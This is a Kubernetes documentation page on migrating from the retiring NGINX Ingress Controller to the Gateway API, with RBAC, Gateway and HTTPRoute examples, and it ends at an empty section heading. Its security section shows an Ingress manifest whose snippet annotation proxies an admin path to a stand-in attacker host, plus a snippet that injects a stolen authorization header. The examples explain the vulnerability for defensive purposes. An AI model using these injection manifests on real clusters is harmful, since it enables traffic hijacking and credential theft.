







import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';
import GatewayApiBenefits from '@site/src/components/GatewayApiBenefits';
import {
  DocumentStructureTable,
  RiskAssessmentTable,
  ArchitectureComparisonTable,
  RoleSeparationTable,
  GaStatusTable,
  FeatureComparisonMatrix,
  SolutionOverviewMatrix,
  SolutionSelectorCards,
  TieredGatewayDiagram,
  ScenarioRecommendationTable,
  FeatureMappingTable,
  DifficultyComparisonTable,
  AwsCostTable,
  OpenSourceCostTable,
  CostComparisonTable,
  MigrationFeatureMappingTable,
  TroubleshootingTable,
  RouteRecommendationTable,
  RoadmapTimeline,
} from '@site/src/components/GatewayApiTables';

# Gateway API Adoption Guide

> **📌 Reference Versions**: Gateway API v1.5.1, Cilium v1.19.0, EKS 1.33+, AWS LBC v3.0.0, Envoy Gateway v1.7.0

> 📅 **Written**: 2025-02-12 | **Updated**: 2026-06-17 | ⏱️ **Reading time**: ~13 min

## 1. Overview

Kubernetes traffic management is converging on the Gateway API, driven by two forces.

**First, the retirement of the NGINX Ingress Controller.** Its official EOL (End-of-Life) in March 2026 ends security patching, and the structural limits of the Ingress API itself (annotation-based extension, no role separation) have become clear. Migrating to the Gateway API is now mandatory rather than optional.

**Second, the rise of tiered gateways for agentic workloads.** LLM inference and agent traffic have different requirements than general web/API traffic: token-based metering and rate limiting, model/provider routing, KV-cache-aware routing, prompt/response guardrails, and load balancing across inference pods. Rather than handling all of this in a single gateway, a 2-tier structure is becoming the standard — a **general Gateway API layer that receives North-South traffic** plus a dedicated **Inference Gateway layer for inference traffic**. The Gateway API and the [Gateway API Inference Extension](https://gateway-api-inference-extension.sigs.k8s.io/) on top of it form the common foundation of this tiered model.

This guide covers Gateway API architecture, comparison of 6 major implementations (AWS LBC v3, Cilium, NGINX Gateway Fabric, Envoy Gateway, kGateway, Kong), Cilium ENI mode deep-dive configuration, step-by-step migration execution strategy, and performance benchmark plans. The detailed design of the inference gateway layer for agentic workloads is covered in the [Agentic AI Platform — Inference Gateway reference](/docs/agentic-ai-platform/reference-architecture/inference-gateway).

:::tip General Gateway vs Inference Gateway — which to read
- Designing **North-South traffic, NGINX Ingress replacement, general API routing** → this document (general Gateway API layer)
- Designing **LLM inference pod routing, KV-cache-aware distribution, model endpoint management** → [Inference Gateway reference](/docs/agentic-ai-platform/reference-architecture/inference-gateway)
- Most agentic platforms use **both layers**. The Section 4 comparison here is the starting point for deciding which combination of solutions fills each layer.
:::

### 1.1 Target Audience

- **EKS cluster administrators running NGINX Ingress Controller**: EOL response strategy
- **Platform engineers building agentic AI platforms**: general gateway + inference gateway 2-tier design
- **Platform engineers planning Gateway API migration**: technology selection and PoC
- **Architects reviewing traffic management modernization**: long-term roadmap design
- **Network engineers considering Cilium ENI mode + Gateway API integration**: eBPF-based high-performance networking

### 1.2 Tiered Gateway at a Glance

<TieredGatewayDiagram locale="en" />

### 1.3 Document Structure

<DocumentStructureTable locale="en" />

:::info Reading Strategy
- **Quick understanding**: Sections 1-3, 6 (~10 min)
- **Technology selection**: Sections 1-4, 6 (~20 min)
- **Full migration**: Entire document + sub-documents (~25 min)
:::

---

## 2. NGINX Ingress Controller Retirement — Why Migration Is Mandatory

### 2.1 EOL Timeline



**Key events in detail:**

- **March 2025**: IngressNightmare (CVE-2025-1974) discovered — an arbitrary NGINX config injection vulnerability via Snippets annotations that accelerated retirement discussions in the Kubernetes SIG Network
- **November 2025**: Kubernetes SIG Network officially announced the retirement of the NGINX Ingress Controller, citing insufficient maintainers (1-2) and Gateway API maturity as the main reasons
- **March 2026**: Official EOL — security patches and bug fixes cease completely. Continued production use after this date risks compliance violations

:::danger Mandatory Action
**After March 2026, the NGINX Ingress Controller receives no security vulnerability patches.** To maintain PCI-DSS, SOC 2, and ISO 27001 compliance, migration to a Gateway API-based solution is required.
:::

### 2.2 Security Vulnerability Analysis

**IngressNightmare (CVE-2025-1974) attack scenario:**

<Tabs>
  <TabItem value="attack-overview" label="Attack Overview" default>

  

  *An unauthenticated remote code execution (RCE) attack vector targeting the Ingress NGINX Controller inside a Kubernetes cluster. External and internal attackers take over the controller pod via a Malicious Admission Review, gaining access to all pods in the cluster. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

  </TabItem>
  <TabItem value="architecture" label="Controller Architecture">

  

  *Internal architecture of the Ingress NGINX Controller pod. The path where the Admission Webhook injects an attacker's malicious config into NGINX during config validation is the core attack surface of CVE-2025-1974. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

  </TabItem>
  <TabItem value="exploit-code" label="Exploit Code Example">

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: malicious-ingress
  annotations:
    # Attacker injects arbitrary NGINX config
    nginx.ingress.kubernetes.io/configuration-snippet: |
      location /admin {
        proxy_pass http://malicious-backend.attacker.com;
        # Enables auth bypass, data theft, backdoor installation
      }
spec:
  ingressClassName: nginx
  rules:
  - host: production-api.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: production-service
            port:
              number: 80
```

  </TabItem>
</Tabs>

**Risk assessment:**

<RiskAssessmentTable locale="en" />

:::warning If You Are Currently Operating
For existing NGINX Ingress environments, applying an admission controller policy that immediately prohibits the use of the `nginx.ingress.kubernetes.io/configuration-snippet` and `nginx.ingress.kubernetes.io/server-snippet` annotations is recommended.
:::

### 2.3 Structural Resolution Through Gateway API

The Gateway API fundamentally resolves the structural vulnerabilities of NGINX Ingress.

<ArchitectureComparisonTable locale="en" />

<Tabs>
<TabItem value="nginx" label="❌ NGINX Ingress Vulnerability" default>

**1. Configuration Snippet Injection Attack**

NGINX Ingress allows arbitrary strings to be injected into annotations, creating serious security risks:



```yaml
# ❌ NGINX Ingress — arbitrary string injection possible
annotations:
  nginx.ingress.kubernetes.io/configuration-snippet: |
    # Can steal credentials of adjacent services (CVE-2021-25742)
    proxy_set_header Authorization "stolen-token";
```

**2. All Permissions Concentrated in a Single Resource**

- A single Ingress resource mixes routing, TLS, security, and extension settings
- RBAC separation at the annotation level is impossible — it is all-or-nothing Ingress permission
- A developer who only wants to modify routing also holds the permission to change TLS/security settings

**3. Vendor Annotation Dependency**

- Features not in the standard are added via vendor-specific annotations → **loss of portability**
- Difficult to debug when annotations conflict
- Increasing complexity of managing 100+ vendor annotations

These structural problems make it hard for NGINX Ingress to meet production security requirements.

</TabItem>
<TabItem value="gateway" label="✅ Gateway API Structural Resolution">

**1. 3-Tier Role Separation Eliminates Snippets at the Source**



Each team manages resources only within its own permission scope — arbitrary config injection paths are eliminated at the source.

```yaml
# Infrastructure team: manages GatewayClass (cluster-level permission)
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: infrastructure-team
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gatewayclasses"]
  verbs: ["create", "update", "delete"]
---
# Platform team: manages Gateway (namespace-level permission)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: platform-team
  namespace: platform-system
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["create", "update", "delete"]
---
# Application team: manages HTTPRoute only (controls routing rules only)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-team
  namespace: app-namespace
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["httproutes"]
  verbs: ["create", "update", "delete"]
```

**2. Structural Validation Based on CRD Schema**

Predefining all fields with an OpenAPI schema makes arbitrary config injection fundamentally impossible:



```yaml
# ✅ Gateway API — only schema-validated fields used
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /api
    filters:
    - type: RequestHeaderModifier  # only predefined filters can be used
      requestHeaderModifier:
        add:
        - name: X-Custom-Header
          value: production
```

**3. Safe Extension via the Policy Attachment Pattern**

Extension features are separated into dedicated Policy resources, with access controlled by RBAC:



```yaml
# Apply L7 security policy with Cilium's CiliumNetworkPolicy
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-rate-limiting
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - fromEndpoints:
    - matchLabels:
        role: frontend
    toPorts:
    - ports:
      - port: "80"
        protocol: TCP
      rules:
        http:
        - method: "GET"
          path: "/api/.*"
          rateLimit:
            requestsPerSecond: 100
```

</TabItem>
</Tabs>

:::info Active Community Support
- **15+ production implementations**: AWS, Google Cloud, Cilium, Envoy, NGINX, Istio, and more
- **Regular quarterly releases**: GA resources included as of v1.4.0
- **Official CNCF project**: development led by the Kubernetes SIG Network
:::

---

## 3. Gateway API — The Next-Generation Traffic Management Standard

### 3.1 Gateway API Architecture


*Source: [Kubernetes Gateway API official documentation](https://gateway-api.sigs.k8s.io/) — three roles (Infrastructure Provider, Cluster Operator, Application Developer) manage GatewayClass, Gateway, and HTTPRoute respectively*

:::tip Detailed Comparison
The architecture comparison between NGINX Ingress and the Gateway API is available tab-by-tab in [2.3 Structural Resolution Through Gateway API](#23-structural-resolution-through-gateway-api).
:::

### 3.2 3-Tier Resource Model

The Gateway API separates responsibilities across the following layered structure:

<Tabs>
  <TabItem value="overview" label="Role Overview" default>

  

  *Source: [Kubernetes Gateway API official documentation](https://gateway-api.sigs.k8s.io/concepts/api-overview/) — GatewayClass → Gateway → xRoute → Service layered structure*

  <RoleSeparationTable locale="en" />

  </TabItem>
  <TabItem value="infra" label="Infrastructure Team (GatewayClass)">

  **Infrastructure team: GatewayClass-only permission (ClusterRole)**

  GatewayClass is a cluster-scoped resource that only the infrastructure team can create/modify. It handles controller selection and global policies.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: ClusterRole
  metadata:
    name: infrastructure-gateway-manager
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gatewayclasses"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  ```

  </TabItem>
  <TabItem value="platform" label="Platform Team (Gateway)">

  **Platform team: Gateway management permission (Role — namespace scope)**

  Gateway is a namespace-scoped resource where the platform team manages listener configuration, TLS certificates, and load balancer settings.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: Role
  metadata:
    name: platform-gateway-manager
    namespace: gateway-system
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["gateways"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  - apiGroups: [""]
    resources: ["secrets"]  # TLS certificate management
    verbs: ["get", "list"]
  ```

  </TabItem>
  <TabItem value="app" label="App Team (HTTPRoute)">

  **Application team: manages HTTPRoute only (Role — namespace scope)**

  The application team manages only HTTPRoute and ReferenceGrant within its own namespace. It cannot access GatewayClass or Gateway.

  ```yaml
  apiVersion: rbac.authorization.k8s.io/v1
  kind: Role
  metadata:
    name: app-route-manager
    namespace: production-app
  rules:
  - apiGroups: ["gateway.networking.k8s.io"]
    resources: ["httproutes", "referencegrants"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
  - apiGroups: [""]
    resources: ["services"]
    verbs: ["get", "list"]
  ```

  </TabItem>
</Tabs>

### 3.3 GA Status (v1.4.0)

The Gateway API is divided into a Standard Channel and an Experimental Channel, with maturity differing per resource:

<GaStatusTable locale="en" />

:::warning Experimental Channel Caution
Alpha-status resources have **no API compatibility guarantee** and may have fields changed or removed on minor version upgrades. In production environments, using only GA/Beta resources from the Standard channel is recommended.
:::

### 3.4 Key Benefits

The 6 key benefits of the Gateway API are presented with visual diagrams and YAML examples.

<GatewayApiBenefits />

### 3.5 Basic Resource Examples

The deployment order of Gateway API resources used in real production environments:

<Tabs>
  <TabItem value="overview" label="Deployment Flow" default>



Gateway API resources are deployed separately by role. The infrastructure team manages the GatewayClass, the platform team the Gateway, and the app team the HTTPRoute.

  </TabItem>
  <TabItem value="step1" label="Step 1: GatewayClass">

**GatewayClass definition (infrastructure team)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: GatewayClass
metadata:
  name: aws-network-load-balancer
spec:
  controllerName: aws.gateway.networking.k8s.io
  description: "AWS Network Load Balancer with PrivateLink support"
  parametersRef:
    group: elbv2.k8s.aws
    kind: TargetGroupPolicy
    name: nlb-performance-profile
```

  </TabItem>
  <TabItem value="step2" label="Step 2: Gateway">

**Gateway creation (platform team)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  namespace: gateway-system
  annotations:
    # AWS NLB-specific annotations
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"
    service.beta.kubernetes.io/aws-load-balancer-scheme: "internet-facing"
    service.beta.kubernetes.io/aws-load-balancer-cross-zone-load-balancing-enabled: "true"
    service.beta.kubernetes.io/aws-load-balancer-nlb-target-type: "ip"
spec:
  gatewayClassName: aws-network-load-balancer
  listeners:
  # HTTP Listener (automatic HTTPS redirect)
  - name: http
    protocol: HTTP
    port: 80

  # HTTPS Listener (ACM certificate)
  - name: https
    protocol: HTTPS
    port: 443
    tls:
      mode: Terminate
      certificateRefs:
      - kind: Secret
        name: acm-certificate
        namespace: gateway-system
    allowedRoutes:
      namespaces:
        from: All  # allow HTTPRoutes from all namespaces
```

  </TabItem>
  <TabItem value="step3" label="Step 3: HTTPRoute">

**HTTPRoute configuration (application team)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: backend-api
  namespace: production-app
spec:
  parentRefs:
  - name: production-gateway
    namespace: gateway-system
    sectionName: https

  hostnames:
  - "api.example.com"

  rules:
  # Canary deployment (90% v1, 10% v2)
  - matches:
    - path:
        type: PathPrefix
        value: /api
    backendRefs:
    - name: backend-v1
      port: 8080
      weight: 90
    - name: backend-v2
      port: 8080
      weight: 10

    filters:
    # Add header
    - type: RequestHeaderModifier
      requestHeaderModifier:
        add:
        - name: X-Backend-Version
          value: canary

    # URL Rewrite
    - type: URLRewrite
      urlRewrite:
        path:
          type: ReplacePrefixMatch
          replacePrefixMatch: /v1/api
```

  </TabItem>
  <TabItem value="step4" label="Step 4: ReferenceGrant">

**ReferenceGrant (cross-namespace reference)**

```yaml
# Allow the Gateway in the gateway-system namespace to be referenced from other namespaces
apiVersion: gateway.networking.k8s.io/v1beta1
kind: ReferenceGrant
metadata:
  name: allow-httproutes-from-all
  namespace: gateway-system
spec:
  from:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    namespace: production-app
  to:
  - group: gateway.networking.k8s.io
    kind: Gateway
    name: production-gateway
```

  </TabItem>
  <TabItem value="step5" label="Step 5: Verification">

**Deployment and verification**

```bash
# Deploy resources
kubectl apply -f gatewayclass.yaml
kubectl apply -f gateway.yaml
kubectl apply -f referencegrant.yaml
kubectl apply -f httproute.yaml

# Check Gateway status
kubectl get gateway production-gateway -n gateway-system
# NAME                  CLASS                        ADDRESS          PROGRAMMED   AGE
# production-gateway    aws-network-load-balancer    a1b2c3.elb.aws   True         5m

# Check HTTPRoute status
kubectl get httproute backend-api -n production-app
# NAME          HOSTNAMES              AGE
# backend-api   ["api.example.com"]    2m

# Check Gateway address
kubectl get gateway production-gateway -n gateway-system \
  -o jsonpath='{.status.addresses[0].value}'

# Traffic test (verify canary ratio)
for i in {1..100}; do
  curl -s https://api.example.com/api/health | jq -r '.version'
done | sort | uniq -c
# Example output:
#   90 v1
#   10 v2
```

  </TabItem>
</Tabs>

:::tip Native Canary Deployment
The Gateway API supports canary deployment without annotations via the `weight` field. It is more concise and more portable than NGINX Ingress's `nginx.ingress.kubernetes.io/canary` annotation combination.
:::

## 4. Gateway API Implementation Comparison — AWS Native vs Open Source

This section compares 6 major Gateway API implementations in detail. It helps make the optimal choice for an organization by clarifying each solution's characteristics, strengths, and weaknesses.

:::note Positioning Kong — policy model and AI Gateway distinction
Kong is a mature OpenResty (NGINX + Lua) based API gateway whose KIC (Kong Ingress Controller) is conformant to the Gateway API Standard channel at the Core level. However, most L7 policies (auth, rate limiting, IP control) are implemented via **KongPlugin CRDs** rather than native Gateway API resources (a 100+ plugin ecosystem). Also, Kong's **AI Gateway** is an **LLM API gateway** that proxies external LLM providers — a **different layer** from the in-cluster inference pod routing (Gateway API Inference Extension, kgateway family) covered by this guide. The tables reflect this distinction explicitly.
:::

### 4.1 Solutions at a Glance

Before the detailed comparison, the cards below summarize each of the 6 solutions' data plane, best-fit scenario, strength, and watch-outs. Grasping the big picture first, then drilling into the matrices below, is the recommended order.

<SolutionSelectorCards locale="en" />

### 4.2 Solution Overview

The following matrix compares the key features, limitations, and best use cases of the 6 Gateway API implementations.

<SolutionOverviewMatrix locale="en" />

### 4.3 Feature Comparison Matrix

The following is a comprehensive comparison of the 6 solutions. This table makes each solution's strengths and weaknesses clear at a glance.

<FeatureComparisonMatrix locale="en" />

### 4.4 NGINX Feature Mapping

This compares how the 8 major features used in the NGINX Ingress Controller are implemented in each Gateway API implementation.

<FeatureMappingTable locale="en" />

**Legend**:
- ✅ Native support (no separate tooling needed)
- ⚠️ Partial support or additional configuration required
- ❌ Not supported (separate solution required)

### 4.5 Implementation Difficulty

<DifficultyComparisonTable locale="en" />

### 4.6 Cost Impact Analysis

<CostComparisonTable locale="en" />

:::tip Cost Optimization Tips
- **If 3+ WAF features are needed**, AWS Native is cost-effective. Multiple rules can be bundled and managed in a single WebACL
- **If only 1-2 are needed**, they can be implemented at no additional cost in open source solutions (Cilium, Envoy Gateway)
- **For performance-sensitive workloads**, open source is advantageous. There is no WAF rule evaluation latency, as processing happens at the kernel/eBPF level
- **When using a Lambda Authorizer**, watch for p99 latency spikes due to cold starts. Review Provisioned Concurrency settings
:::

### 4.7 Per-Feature Implementation Code Examples

